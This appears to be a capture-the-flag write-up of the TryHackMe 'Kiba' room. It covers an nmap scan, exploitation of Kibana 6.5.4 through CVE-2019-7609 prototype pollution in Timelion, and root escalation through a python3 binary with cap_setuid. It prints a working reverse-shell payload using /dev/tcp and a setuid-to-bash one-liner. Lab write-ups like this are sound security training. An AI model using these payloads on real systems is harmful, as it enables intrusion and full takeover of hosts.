 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Kiba
# DESCRIPTION       . Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/kiba
```

```
sudo nmap -sSVC -T5 -p- 10.10.144.127 -oN kiba
```

```
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9df8d157132481b6185d048ed2384f90 (RSA)
|   256 e1e67aa1a11cbe03d24e271b0d0aecb1 (ECDSA)
|_  256 2abae5c5fb51381745e7b154caa1a3fc (ED25519)

80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

5044/tcp open  lxi-evntsvc?

5601/tcp open  esmagent?
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Mon, 25 Dec 2023 14:35:17 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Mon, 25 Dec 2023 14:35:17 GMT
|_    {"statusCode":404,"error":"Not Found"}
```

- There's nothing useful on webserver running on port 80. 
- However, after the nmap scan, we see that kibana appears to be running on port `5601`.

- By checking the source code, we find out that the kibana version running is `6.5.4`. This can also be visible by navigating to `Management` dashboard.

- After some googling around, I found out that Kibana versions `3.0` - `5.6.14` and `6.0.0` - `6.6.0` are vulnerable to `cve-2019-7609`, which allows RCE by using a `prototype pollution` vulnerability in the `Timelion` feature of Kibana.

- After some googling around, I found the following payload for Timelion

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("sh -i >& /dev/tcp/IP/3131 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

- However, in my case, this didn't work so I've used [this](https://github.com/LandGrey/CVE-2019-7609/) script instead.

- The first flag is located in `/home/kiba/user.txt`.

- Using `getcap -r /` we find one particularly useful capability set 

```
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
```

- This can be leveraged to escalate privileges to root.

```
kiba@ubuntu:~$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

- The last flag is in `/root/root.txt`.